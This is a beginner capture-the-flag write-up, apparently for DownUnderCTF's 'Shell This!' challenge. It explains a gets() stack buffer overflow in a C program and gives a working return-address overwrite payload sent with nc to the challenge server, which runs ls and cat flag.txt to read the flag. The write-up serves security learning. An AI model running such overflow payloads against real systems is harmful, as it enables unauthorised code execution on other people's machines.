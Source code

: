 # Shell This!

- **Category:** Pwn
- **Difficulty:** Beginner
- **Author:** Faith

Somebody told me that this program is vulnerable to something called remote code execution?

I'm not entirely sure what that is, but could you please figure it out for me?

```nc chal.duc.tf 30002```

Attached files:

- [shellthis.c](./shellthis.c)
- [shellthis](./shellthis)

## Writeup

In this challenge, we need to gain access to a remote machine to obtain the flag by connecting to it through a port that is running a program. We have access to both the source code and the executable of this program to help us find an exploit to gain access. 

Starting with the source code, we notice that there's a hanging function `get_shell`, which executes a shell program (giving us access to the machine and thus the flag), and that it prints out some messages and asks the user to input a name during its execution flow. 

This input is being read to a buffer using the `gets` function, which is vulnerable to **Buffer Overflow**. We will exploit this vulnerability to change the return address of the `vuln` function, from where the input is read, to the address of the `get_shell` function. This will cause the `get_shell` function to be executed when returning from `vuln`, instead of resuming the execution from where it was called.

For this, we need to obtain two critical pieces of information; the **address of `get_shell`**, and the **offset between the return address and the input buffer**.

### Analyzing the Executable

First, let's figure out what type of file we're dealing with. For that, we're using the `file` command.

```bash 
file shellthis
```

```bash
shellthis: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=ea93e2cb9c3a5f24ceeb30507a30155e04758666, with debug_info, not stripped
```

We now know that this file is a **64-bit ELF** executable, and that it is **unstripped**, meaning that symbols and other relevant debugging information are not discarded, making our life easier. Let's disassemble the file and focus on the `get_shell` and `vuln` functions:

```bash 
objdump -d shellthis
```

```bash
...

00000000004006ca <get_shell>:
  4006ca:       55                      push   %rbp
  4006cb:       48 89 e5                mov    %rsp,%rbp
  4006ce:       ba 00 00 00 00          mov    $0x0,%edx
  4006d3:       be 00 00 00 00          mov    $0x0,%esi
  4006d8:       48 8d 3d f9 00 00 00    lea    0xf9(%rip),%rdi        # 4007d8 <_IO_stdin_used+0x8>
  4006df:       e8 8c fe ff ff          callq  400570 <execve@plt>
  4006e4:       90                      nop
  4006e5:       5d                      pop    %rbp
  4006e6:       c3                      retq

00000000004006e7 <vuln>:
  4006e7:       55                      push   %rbp
  4006e8:       48 89 e5                mov    %rsp,%rbp
  4006eb:       48 83 ec 30             sub    $0x30,%rsp
  4006ef:       48 8d 3d ea 00 00 00    lea    0xea(%rip),%rdi        # 4007e0 <_IO_stdin_used+0x10>
  4006f6:       b8 00 00 00 00          mov    $0x0,%eax
  4006fb:       e8 60 fe ff ff          callq  400560 <printf@plt>
  400700:       48 8d 45 d0             lea    -0x30(%rbp),%rax
  400704:       48 89 c7                mov    %rax,%rdi
  400707:       b8 00 00 00 00          mov    $0x0,%eax
  40070c:       e8 6f fe ff ff          callq  400580 <gets@plt>
  400711:       90                      nop
  400712:       c9                      leaveq
  400713:       c3                      retq

...
```

The address of the `get_shell` function is **0x4006ca**, and we can see on address 0x4006eb that 0x30 bytes (48 in decimal) are being reserved in the stack for our input buffer (local variable of `vuln`). Therefore, the offset until the return address is 48 (input buffer) + 8 (previous frame pointer), **56 bytes**.

### Building the payload

After having gathered all the necessary information, the final step is to prepare the payload. We're using Python to generate the payload, consisting of 56 filler characters (to fill the offset), followed by the `get_shell` address, which will replace the return address. Since we are writing to the stack in the reverse order, we must invert the bytes' order in the address (0x4006ca => `0xca`, `0x06`, `0x40`).

```bash
python -c 'print "w"*56 + "\xca\x06\x40"'
```

```bash
wwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwww@
```

### Launching the attack

Let's send the payload to the victim machine, followed by a newline character, to end the line to be processed by `gets`, and a command to be interpreted by the shell process, should our attack be successful:

```bash
python -c 'print "w"*56+"\xca\x06\x40\nls"' | nc chal.duc.tf 30002
```
```bash
Welcome! Can you figure out how to get this program to give you a shell?
Please tell me your name: flag.txt
shellthis
```

It appears that our attempt was successful, and we now know that there are two files in the current folder of the remote machine, `flag.txt` and `shellthis`.  I'm going take a guess and assume the flag is inside `flag.txt`:

```bash
python -c 'print "w"*56+"\xca\x06\x40\ncat flag.txt"' | nc chal.duc.tf 30002
```

```bash
Welcome! Can you figure out how to get this program to give you a shell?
Please tell me your name: DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
```

Bingo, we found the flag: `DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}`

---

After looking at the [official writeup](https://github.com/DownUnderCTF/Challenges_2020_public/blob/master/pwn/shellthis/WRITEUP.md), I noticed that they used a different method for determining the offset (De Bruijn sequence) and that they used [pwntools](https://github.com/Gallopsled/pwntools) for the exploit. As my first pwn challenge, I was not yet acquainted with these methods. Next time I will surely be better prepared, now that I have some ground to dig up. 